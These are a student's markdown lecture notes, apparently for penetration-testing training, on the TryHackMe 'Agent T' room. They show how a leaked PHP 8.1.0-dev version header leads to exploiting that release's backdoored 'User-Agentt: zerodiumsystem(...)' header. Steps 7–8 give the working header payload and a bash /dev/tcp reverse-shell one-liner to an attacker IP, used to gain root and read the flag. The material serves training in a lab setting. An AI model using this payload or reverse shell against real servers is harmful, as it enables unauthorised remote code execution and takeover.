



#WAPT-notes  

---
### what we'll learn
> Lecture Name : [HINDI] THM Agent T | Remote Code Execution
> 0) Overview
> 1) Define - Remote code Execution
> 2) Process from the little issue/vulnerability to "Remote Code Execution"
> 3) Summary - of process of RemoteCodeExecution
---

### 0. Overview
- Example : let's say u're a agent as name "Agent T" & u got a task to test a webapp/website &  
  	everything is going well & u say that everything is working fine but u got a little vulnerability/issue.  
	so journey of the process from that little issue to `Remote Code Execution` - we'll see & we'll play as "Agent T" ✔️

### 1. Define - Remote code Execution
- means any website or webapp is running on that system , access of that system can get to the attacker remotely  
	& then that attacker can run the commands on victim's shell & this is dangerous vulnerability  
	cuz remotely that server or system can be controlled ✔️
- so if this version of PHP i.e `8.1.0-dev` runs on a server an attacker can execute arbitrary code  
	by sending the `User-Agentt header` means kinda we can open sudo shell ✔️
- so due to this issue , attacker can create impact/penetrate in large amount ✔️

### 2. Process from the little issue/vulnerability to "Remote Code Execution"
- STEP 1 : go to this room https://tryhackme.com/room/agentt & start the machine & copy the IP address as `10.10.49.29` 
- STEP 2 : in Kali Linux , already built-in VPN i.e openVPN , so start the VPN like this 
	so in terminal - `cd downloads` command then `openvpn EthicalSharmaji.ovpn`
- STEP 3 : in firefox , open that IP address & then once the webapp gets open - then in "message" box ,  
	click on any message (to check whether anything happen or not)  
	output : nothing happen except we're getting hashtag in URL ✔️
- STEP 4 : in new terminal tab -> start BurpSuite as command `BurpSuite` -> OFF the "intercept"
	- STEP 4.1 : in BurpSuite , "project Options" -> misc ,  
		check the box of `Allow Burp's browser to run without a sandbox` - means to run the BurpSuite's browser without a sandbox  
		& we can start the browser ✔️
	- STEP 4.2 : copy that IP address & open it inside BurpSuite's browser 
	- Q : why Anuj sir open websites in BurpSuite's browser instead of any external browser ✔️ 
		Ans : cuz when a website/webapp comes for testing - then opening them in Burp's Browser  
    	cuz packets visibility - in order to know what request goes & what requests we got  
  		so that he can see/visibility of packets about what requests goes & what responses came in
- STEP 5 : so in that webapp , when we click on anything , output : then nothing will happen  
	means URL just getting hashtag but once we come & click on "404 page"
	- output : of before clicking on other pages  
	- output : of after clicked on 404 page  
    	 - here webapp name gets changed & "admin" profile name converted into something
	- so here `404 page` menu link has a problem & u can check others stuff to know  
		whether any issues coming or not , if not coming then might be there is a issue in "404 page"
- STEP 6 : in burpSuite , let's check the security error , so "Target" -> Site Map ,  
	select that "IP address" folder & check any request of it 
	- checking a request & it's "Response" section  
	- & further u check inside "Response" section , output : then u'll not get anything  
		but here `x-powered by` is not seems good , so select `PHP/8.1.0-dev` & right click & copy it
	- STEP 6.1 : in firefox -> paste it & write this `PHP 8.1.0-dev exploits` -> search it
		- `imp Note ✅` : this a method that if u get anything (like version or server version or technology version)  
			then ur next step will be always search exploits related to that version  
			in order to know whether that vulnerability is big or small
	- STEP 6.2 : open these sites  
	- STEP 6.3 : in 1st link , `PHP 8.1.0-dev` version is vulnerable for "Remote Code Execution"
	- STEP 6.4 : in 2nd link `https://exploit-db.com/exploits/49933` ,  
		understanding what this exploit doing of this php version , so it's a python exploit 
		 
	- so here the code `"User-Agentt : zerodiumsystem('" + cmd + "');"`  
		means if we give ("User-Agentt" & command with zerodiumsystem (here cmd - means could be any command))  
		then the complete thing will execute the command
	- in this link : https://www.exploit-db.com/exploits/49933  
		"An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021,  
		but the backdoor was quickly discovered and removed. If this version of PHP runs on a server,  
		an attacker can execute arbitrary code by sending the User-Agentt header.  
		The following exploit uses the backdoor to provide a pseudo shell on the host."
		 - means we'll get pseudo shell
- STEP 7 : in BurpSuite , "target" -> "site map" , inside the IP address folder 
	 
	- STEP 7.1 : right click on "Request" section -> "send to repeater" 
	- STEP 7.2 : in "repeater" tab , delete the value of `User-Agent` & change the key-name as `User-Agentt`  
		copy the value from https://exploit-db.com/exploits/49933 & paste the expected value of the key i.e  
		`"zerodiumSystem('" + cmd + "')"`
	- STEP 7.3 : so that BurpSuite can understand , let's give the cmd as `hostname`  
		cuz generally , PHP page application runs on Linux server & "hostname" is a linux command to check hostname ✔️
		- in "repeater" tab , ultimately write this `User-Agentt : zerodiumsystem('hostname');`  
			& click on `send` btn  
    	- output : so we got 200 Ok & hostname is 3FA6... which means `hostname` command is working ,  
	- STEP 7.4 : change "hostname" value as `whoami` command , output : 
		then again we'll get output  
    	- which means remotely we can run command on the linux server of that IP address.  
			so whatever commands we're running , that command interacting with shell
		- means that linux server (on which this PHP application running) - we're able to interact with that system
		- so this is small vulnerability - which is HEADER based
- STEP 8 : now our main goal to get the shell or flag , so for this ,  
	we have a extension [HackTools – Firefox](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) or  
	u can google i.e "how to get the one liner reverse shell command of bash"
	- STEP 8.1 : in that firefox extension , select bash icon & paste the IP address ,  
		u'll get the bash command , copy the command  
	- STEP 8.2 : in terminal , run the command of netcat i.e `nc -lvnp 443` ,  
		Q : why we're running netcat on port 443 ✔️ 
		Ans : cuz once that shell command we run - then after execution of that command , shell will get ON
	- STEP 8.3 : paste that one liner command  
		i.e `User-Agentt : zerodiumsystem('bash -c 'exec bash -1 &>/dev/tcp/10.17.41.167/443 <&1'');`  
		like this  
	- STEP 8.4 : click on `send` btn & in terminal , output : we got the shell i.e 
		 
	- STEP 8.5 : write `whoami` command (to check whether folder is "root" or not) like this `whoami` ,  
		output : so we'll get root  
	- STEP 8.6 : to find the flag , go to `cd/root` & run `ls` , output : then still not got ,  
		again run `ls -la` (`la` means might be the file in hidden form) ✔️
	- STEP 8.7 : run  `cd ..` to come out of "root" directory & run `pwd` command to check the path ,  
		so we'll get `/` (which means we're in a starting directory of root where all the files & folder , including root folder also)
	- STEP 8.8 : & run `ls -la` & all commands which we used from STEP 8.5 till STEP 8.7 
		   
		output : we got "flag.txt" file
	- STEP 8.9 : so run `cat flag.txt` & the value will come submit on `tryhackme.com/room/agentt`

### 3. Summary - of process of RemoteCodeExecution
- STEP 1 : we got the finding where server or technology version is exposed
- STEP 2 : via that technology version , we find out the exploits
- STEP 3 : we got the exploit of "Remote Code Execution" & then we try to understood
- STEP 4 : then we try to execute the command , so commands are executing
- STEP 5 : whatever the commands are running , so via those commands "how we can obtain/get the shell"  
	cuz attacker will also try to do the same

---
### End of the Lecture (Doubts)
- Advice : Anuj sir didn't showed the flag text cuz if he do so  
	then students won't learn + they will just copy & paste on tryhackme.com to submit the lab  
	Conclusion : learning is vvv imp

